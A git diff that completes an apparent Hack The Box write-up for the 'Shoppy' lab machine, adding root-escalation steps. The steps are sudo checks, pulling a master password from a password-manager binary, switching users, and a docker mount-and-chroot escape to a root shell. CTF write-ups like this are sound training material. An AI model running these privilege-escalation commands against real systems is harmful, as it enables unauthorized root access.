

complete write up

Changed region(s): [[0.0, 0.0, 0.9717, 1.0], [0.9717, 0.7282, 1.0, 0.9903]]

diff --git a/machines/Shoppy/README.md b/machines/Shoppy/README.md
@@ -15,6 +15,7 @@ Discovered shoppy.htb by browsing, add to /etc/hosts
 go to the browser and have a look at the website’s code and in general, the website look. 
 
 ![Ping](images/img(3).png?raw=true "hosts")
+
 We don’t find anything interesting here so we run gobuster.
 
 ![Ping](images/img(4).png?raw=true "hosts")
@@ -51,12 +52,12 @@ gobuster vhost --url http://shoppy.htb -w /usr/share/wordlists/amass/bitquark_su
 ```
 
 ![Ping](images/img(11).png?raw=true "hosts")
+
 here we have mattermost.shoppy.htb, add it to /etc/hosts
 
 ![Ping](images/img(10).png?raw=true "hosts")
 
 then browse the link and log in using the credentials we found
-
 
 ![Ping](images/img(12).png?raw=true "hosts")
 
@@ -69,3 +70,43 @@ Login via ssh as jaeger to fetch the user flag
 ![Ping](images/img(14).png?raw=true "hosts")
 
 ### -> ROOT
+
+Check sudo rights
+```
+sudo -l
+```
+Here we see jaeger may deploy the /home/deploy/password-manager. Check the text of the this program and spot the following line, see the word Sample?
+```
+cat /home/deploy/password-manager
+```
+![Ping](images/img(16).png?raw=true "hosts")
+
+Enter the master password and switch to deploy, Here we see deploy and password
+
+```
+sudo -u deploy /home/deploy/password-manager 
+```
+
+![Ping](images/img(17).png?raw=true "hosts")
+
+move to deploy user using these credentials 
+
+```
+su deploy
+```
+
+![Ping](images/img(18).png?raw=true "hosts")
+
+If you went to the mattermost subdomain there’s a hint there:
+
+![Ping](images/img(19).png?raw=true "hosts")
+
+he’s using docker for deployment, we might find exploits going to [Check Here](https://gtfobins.github.io/#docker)
+
+```
+docker run -v /:/mnt --rm -it alpine chroot /mnt sh
+```
+
+![Ping](images/img(20).png?raw=true "hosts")
+
+Boom! Got root flag
